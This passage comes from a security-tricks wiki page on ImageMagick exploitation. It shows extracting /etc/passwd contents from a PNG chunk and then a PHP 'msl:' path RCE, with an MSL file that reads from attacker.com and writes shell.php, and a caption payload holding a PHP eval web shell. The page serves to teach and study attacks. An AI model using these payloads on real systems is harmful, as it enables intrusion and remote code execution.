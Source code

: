     <pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>keyword "Raw profile type ": bad character '0x20' @ warning/png.c/MagickPNGWarningHandler/1750.
    </strong></code></pre>
    {% endhint %}
3.  **Download the result** and **extract the data**: With the file downloaded, another `tEXt` or `zTXt` (compressed) chunk is added containing the content as data.\


    <pre class="language-shell-session"><code class="lang-shell-session"><strong>$ exiftool -RawProfileType download.png | cut -d '.' -f4- | xxd -p -r
    </strong>root:x:0:0:root:/root:/bin/bash
    ...
    </code></pre>

<details><summary>Python Functions</summary></details>

### PHP `vid:msl:` path RCE (< 7.1.0-40 = Jul 2022)

While researching Arbitrary Objection Instantiations researchers found an interesting trick in ImageMagick that allowed **writing files** when parsing an image with a specific path. To be able to perform this attack you require control over the **start of the path** that `convert` tries to parse:

{% embed url="https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/" %}
Tricks for the original research, but mostly focussed on the ImageMagick MSL vulnerability
{% endembed %}

#### How it works

Magick Scripting Language (MSL) is a special schema and file that ImageMagick supports to script certain actions while converting. By **prefixing** a path with `msl:`, the file is interpreted as this scripting language which performs sensitive actions like reading and writing files:

{% code title="/tmp/php3r1Y4p" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="http://attacker.com/shell.png" />
 <write filename="../shell.php" />
</image>
```
{% endcode %}

{% hint style="success" %}
Using `caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;` as the `filename` for `<read>` here would even bypass the need for a server hosting content, as will be used in the [#exploitation](imagemagick.md#exploitation "mention") phase:

<pre class="language-xml"><code class="lang-xml"><strong>&#x3C;read filename="caption:&#x26;lt;?php @eval(@$_REQUEST['a']); ?&#x26;gt;" />
</strong></code></pre>
{% endhint %}

We need to somehow get this file on the target so we can reference it. Luckily PHP has a default configuration of saving all uploaded files temporarily in the `/tmp` folder so the code can handle it. It does not matter if the code actually does something with `$_FILES`, PHP will always save files from any request that has files.
